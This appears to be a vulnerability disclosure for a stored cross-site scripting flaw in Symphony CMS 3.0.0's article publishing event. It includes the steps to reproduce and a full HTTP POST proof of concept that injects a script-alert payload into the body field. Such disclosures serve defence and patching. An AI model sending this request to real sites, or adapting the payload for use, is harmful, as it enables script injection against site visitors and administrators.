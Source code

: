 # Description

`symphonycms/symphony-2` is vulnerable to `Cross-Site Scripting (XSS)` via fields['body'] to appendSubheading in events\event.publish_article.php

# Steps to reproduce the behavior:
```
1. Login as member
2. Go to 'Articles'
3. Submit malicious content
4. Anyone (inclued admin) view article and XSS excuted
```
Expected behavior
`When admin or user view content, a pop-up will be displayed`

Affected componets:
`events\event.publish_article.php in Symphony CMS 3.0.0 allows XSS via fields['body'] to appendSubheading`

# POC:
```
POST /symphonycms/symphony/publish/articles/new/ HTTP/1.1
Host: target
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,vi-VN;q=0.8,vi;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://target/symphonycms/symphony/publish/articles/new/
Content-Type: multipart/form-data; boundary=---------------------------17679481844164416353626544932
Content-Length: 1111
Origin: http://target
Connection: close
Cookie: PHPSESSID=b21qllug0g7ft80ueo3bn0bgcd;
Upgrade-Insecure-Requests: 1

-----------------------------17679481844164416353626544932
Content-Disposition: form-data; name="xsrf"

vr-i2mWs18DPjVmZ8z2nB-Gb3hdyrb
-----------------------------17679481844164416353626544932
Content-Disposition: form-data; name="MAX_FILE_SIZE"

5242880
-----------------------------17679481844164416353626544932
Content-Disposition: form-data; name="fields[title]"

TEST XSS
-----------------------------17679481844164416353626544932
Content-Disposition: form-data; name="fields[body]"

<script>alert('XSS')</script>
-----------------------------17679481844164416353626544932
Content-Disposition: form-data; name="fields[date]"

08/28/2020 5:55 am
-----------------------------17679481844164416353626544932
Content-Disposition: form-data; name="fields[categories][]"

2
-----------------------------17679481844164416353626544932
Content-Disposition: form-data; name="fields[publish]"

yes
-----------------------------17679481844164416353626544932
Content-Disposition: form-data; name="action[save]"

Create Entry
-----------------------------17679481844164416353626544932--
```
